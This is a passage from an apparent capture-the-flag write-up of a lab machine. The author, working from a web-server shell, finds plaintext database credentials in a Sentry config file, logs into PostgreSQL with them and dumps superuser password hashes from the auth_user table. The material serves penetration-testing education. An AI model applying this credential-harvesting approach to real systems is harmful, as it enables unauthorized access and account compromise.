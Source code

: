 
I tried to read the `auth_user` table, but this user doesn't have
permissions:



    sentry=> select id,username,password,is_superuser from auth_user;
    ERROR:  permission denied for relation auth_user



Looking in `/etc`, there's a config file for Sentry at
`/etc/sentry/sentry.conf.py`, and it has connection information for a
different user:



    ...[snip]...
    DATABASES = {                                       
        'default': {
            'ENGINE': 'sentry.db.postgres',
            'NAME': 'sentry',                           
            'USER': 'sentry',
            'PASSWORD': 'SentryPassword2021',
            'HOST': 'localhost',
            'PORT': '',
        }     
    }
    ...[snip]...



On connecting, judging by the prompt this user is elevated:



    www-data@developer:/etc/sentry$ psql postgresql://sentry:SentryPassword2021@localhost:5432/sentry  
    psql (9.6.22)
    SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
    Type "help" for help.

    sentry=#



There are two users:



    sentry=# select id,username,password,is_superuser from auth_user;
     id |      username       |                                   password                                    | is_superuser 
    ----+---------------------+-------------------------------------------------------------------------------+--------------
      1 | karl@developer.htb  | pbkdf2_sha256$12000$wP0L4ePlxSjD$TTeyAB7uJ9uQprnr+mgRb8ZL8othIs32aGmqahx1rGI= | t
      5 | jacob@developer.htb | pbkdf2_sha256$12000$MqrMlEjmKEQD$MeYgWqZffc6tBixWGwXX2NTf/0jIG42ofI+W3vcUKts= | t
    (2 rows)



I already have the password for jacob, but karl is one of the users on
the box!
